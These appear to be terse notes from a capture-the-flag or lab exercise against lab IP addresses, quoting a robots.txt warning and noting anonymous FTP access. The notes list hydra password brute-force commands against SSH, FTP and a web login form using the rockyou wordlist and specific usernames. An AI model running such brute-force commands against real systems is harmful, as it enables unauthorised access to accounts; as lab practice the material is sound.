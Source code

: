 



/robots.txt

Skiddies keep out.
Any unauthorised access will be forwarded straight to Richard McGill FBI and you WILL be arrested.
- plague


ftp anon gives note

hydra ssh://10.10.188.182 -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 4 -V

hydra ftp://10.10.188.182 -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 4 -V

 hydra 10.10.99.187 http-post-form '/api/login:username=^USER^&password=^PASS^:Incorrect' -l user -P /usr/share/wordlists/rockyou.txt -t 64
